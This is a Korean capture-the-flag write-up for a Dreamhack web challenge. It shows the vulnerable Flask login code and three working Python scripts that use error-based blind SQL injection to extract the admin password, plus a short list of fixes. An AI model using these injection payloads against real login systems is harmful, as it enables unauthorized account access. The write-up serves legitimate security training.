

# Login Page

구분: 공통 문제
난이도: Easy
문제 링크: https://dreamhack.io/wargame/challenges/566
분야: Web
상태: 작성 완료
생성일: 2026년 8월 2일 오후 11:44
수정일: 2026년 8월 31일 오후 9:13

# 1. 문제 요약

- main함수에서 reset_password()로 랜덤한 비밀번호 변경 후 웹 서버 실행
- /login 엔드포인트에서 admin 으로 로그인 시도
- 세션마다 6번 틀리면 패스워드 초기화
- 새로운 세션을 생성해 실패 횟수 제한을 우회
- 오류 기반 Blind SQL Injection으로 실제 비밀번호를 추출한 후 정상 로그인

---

# 2. 문제 분석

- 전체코드(app.py)
    
    ```python
    #!/usr/bin/env python3
    from threading import RLock
    import base64
    import os
    
    from flask import Flask, redirect, render_template, request, session
    import pymysql
    
    with open('./flag', 'r') as f:
        FLAG = f.read()
    
    MAX_LOGIN_TRIES = 6
    
    SQL_BAN_LIST = [
        'update', 'extract', 'lpad', 'rpad', 'insert', 'values', '~', ':', '+',
        'union', 'end', 'schema', 'table', 'drop', 'delete', 'sleep', 'substring',
        'database', 'declare', 'count', 'exists', 'collate', 'like', '!', '"',
        '$', '%', '&', '+', '.', ':', '<', '>', 'delay', 'wait', 'order', 'alter'
    ]
    
    app = Flask(__name__)
    app.secret_key = os.urandom(32)
    
    def connect_mysql():
        db = pymysql.connect(host='localhost',
                             port=3306,
                             user=os.environ['MYSQL_USER'],
                             passwd=os.environ['MYSQL_PASSWORD'],
                             db='reset_db',
                             charset='utf8')
        cursor = db.cursor()
        return db, cursor
    
    def check_query_ban_list(query):
        for banned in SQL_BAN_LIST:
            if banned in query.lower():
                return False
        return True
    
    def reset_password():
        global cursor, db
    
        # Generate new password.
        while True:
            new_password = base64.b64encode(base64.b64encode(os.urandom(16))).decode()
            if check_query_ban_list(new_password):
                break
    
        # Update new password.
        done = False
        while not done:
            try:
                query = 'UPDATE users SET password = %s WHERE username = \'admin\''
                cursor.execute(query, (new_password, ))
                db.commit()
                done = True
            except pymysql.err.InterfaceError:
                db.close()
                db, cursor = connect_mysql()
    
    @app.route('/', methods=['GET', 'POST'])
    def index():
        if session:
            return redirect('/login')
    
        if request.method == 'GET':
            return render_template('index.html')
    
        # POST
        # Set a session per user.
        if not session:
            session['id'] = os.urandom(16)
            session['tries'] = 0
        return redirect('/login')
    
    @app.route('/login', methods=['GET', 'POST'])
    def login():
        global cursor, db
    
        if not session:
            return redirect('/')
    
        if request.method == 'GET':
            return render_template('login.html', msg=None)
    
        # POST
        # Try to login.
        args = request.form
    
        if 'username' not in args and 'password' not in args:
            return render_template('login.html', msg='Enter username and password.')
    
        elif 'username' not in args and 'password' in args:
            return render_template('login.html', msg='Enter username.')
    
        elif 'username' in args and 'password' not in args:
            return render_template('login.html', msg='Enter password.')
    
        username = args['username']
        password = args['password']
    
        if not username and not password:
            return render_template('login.html', msg='Enter username and password.')
    
        elif not username and password:
            return render_template('login.html', msg='Enter username.')
    
        elif username and not password:
            return render_template('login.html', msg='Enter password.')
    
        if not check_query_ban_list(username) \
                or not check_query_ban_list(password):
            reset_password()
            session['tries'] = 0
            msg = 'What? you are hacker! I reset password!'
            return render_template('login.html', msg=msg)
    
        # Query the user.
        done = False
        while not done:
            try:
                query = 'SELECT * FROM users WHERE username = \'{0}\' ' \
                        'AND password = \'{1}\''
                with lock:
                    query = query.format(username, password)
                    cursor.execute(query)
                    ret = cursor.fetchone()
                done = True
            except pymysql.err.InterfaceError:
                db.close()
                db, cursor = connect_mysql()
    
        # Failed to login.
        if not ret:
            session['tries'] += 1
            tries = session['tries']
            remain_tries = MAX_LOGIN_TRIES - tries
            if remain_tries <= 0:
                reset_password()
                session['tries'] = 0
                msg = 'Password is reset.'
                msg = msg.format(remain_tries)
                return render_template('login.html', msg=msg)
    
            msg = 'Password will be reset after {0} unsuccessful login attempts.'
            msg = msg.format(remain_tries)
            return render_template('login.html', msg=msg)
    
        # Succeed to login but double-check.
        actual_username = ret[1]
        actual_password = ret[2]
    
        if username != actual_username or password != actual_password:
            reset_password()
            session['tries'] = 0
            msg = 'What? you are hacker! I reset password!'
            return render_template('login.html', msg=msg)
    
        # Print flag.
        return render_template('login.html', msg=FLAG)
    
    if __name__ == '__main__':
        lock = RLock()
        db, cursor = connect_mysql()
        reset_password()
        app.run(host='0.0.0.0', port=8000)
        db.close()
    
    ```
    
- 웹 서버

```markdown
Flask -/ (post->세션id와 session['tries']할당후 /login으로 이동) 
      -/login (username, pw검증->sql쿼리-> id, pw비교
```

- reset_password()← db내의 admin 유저의 패스워드를 변경한다. random한 base64인코딩한 32문자열

```python
def reset_password():
    global cursor, db

    while True:
        new_password = base64.b64encode(base64.b64encode(os.urandom(16))).decode()
        if check_query_ban_list(new_password):
            break

    done = False
    while not done:
        try:
            query = 'UPDATE users SET password = %s WHERE username = \'admin\''
            cursor.execute(query, (new_password, ))
            db.commit()
            done = True
```

- SQL_BAN_LIST

```python

SQL_BAN_LIST = [
    'update', 'extract', 'lpad', 'rpad', 'insert', 'values', '~', ':', '+',
    'union', 'end', 'schema', 'table', 'drop', 'delete', 'sleep', 'substring',
    'database', 'declare', 'count', 'exists', 'collate', 'like', '!', '"',
    '$', '%', '&', '+', '.', ':', '<', '>', 'delay', 'wait', 'order', 'alter'
]

```

---

# 3. 풀이과정(blind sqli)

loop→(세션 아이디 생성 pw 한글자 씩 검사)

SQL의 IF 조건이 참이면 9e307*2를 계산하게 하여 DB 오류를 발생시킨다.

```python
from unittest import result

import requests

URL = "http://host3.dreamhack.games:11127"
chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789/+"
password = ""

for i in range(1, 33):
    for c in chars:
        s = requests.Session()
        s.post(URL + "/")

        payload = f"admin' and if(ascii(mid(password,{i},1))={ord(c)},9e307*2,0)#"
        status = s.post(URL + "/login", data={
            "username": payload,
            "password": "a"
        }).status_code

        if status == 500:
            password += c
            print(password)
            break

```



---

# 4. 보안조치

- Prepared Statement 사용해 사용자 입력이 sql문을 변경하는 것을 방지한다
- DB 오류를 사용자에게 그대로 노출하지 않고 동일한 상태 코드와 응답 본문을 반환
- 계정 일정 횟수 실패 시 지연 또는 일시 잠금
- 새 세션 생성으로 우회하지 못하게 서버나 DB에 실패 횟수 저장

# 5. PoC코드 (이진 탐색 기반)

```python
import requests

URL = "http://host3.dreamhack.games:11127"
password = ""

def check(condition):
    s = requests.Session()
    s.post(URL + "/")

    status = s.post(URL + "/login", data={
        "username": f"admin' and if({condition},9e307*2,0)#",
        "password": "a"
    }).status_code

    return status == 500

for i in range(1, 33):
    low, high = 43, 122

    while low < high:
        mid = (low + high) // 2

        condition = (
            f"ascii(mid(password,{i},1)) "
            f"between {low} and {mid}"
        )

        if check(condition):
            high = mid
        else:
            low = mid + 1

    password += chr(low)
    print(password)

s = requests.Session()
s.post(URL + "/")

result = s.post(URL + "/login", data={
    "username": "admin",
    "password": password
})

print("PASSWORD:", password)
print(result.text)
```

---

# 6. 기록

Base64 문자 범위 상세알파벳 대문자: A-Z (0~25번, 26개)알파벳 소문자: a-z (26~51번, 26개)숫자: 0-9 (52~61번, 10개)특수문자: `+`, `/` (62~63번, 2개)

- SELECT SUBSTR('abcdef', 2, 3);  -- bcd
- SELECT MID('abcdef', 2, 3);     -- bcd
- SELECT LEFT('abcdef', 3);       -- abc
- SELECT RIGHT('abcdef', 3);      -- def

- 실패코드 MySQL 문자열 비교가 대소문자를 구분하지 않기 때문
    
    ```python
    import requests
    
    URL = "http://host3.dreamhack.games:11127"
    chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789/+"
    password = ""
    
    for i in range(1, 33):
        for c in chars:
            s = requests.Session()
            s.post(URL + "/")
    
            payload = f"admin' and if(mid(password,{i},1)='{c}',9e307*2,0)#"
    
            status = s.post(URL + "/login", data={
                "username": payload,
                "password": "a"
            }).status_code
    
            if status == 500:
                password += c
                print(password)
                break
    
    s = requests.Session()
    s.post(URL + "/")
    
    result = s.post(URL + "/login", data={
        "username": "admin",
        "password": password
    })
    
    print(result.text)
    ```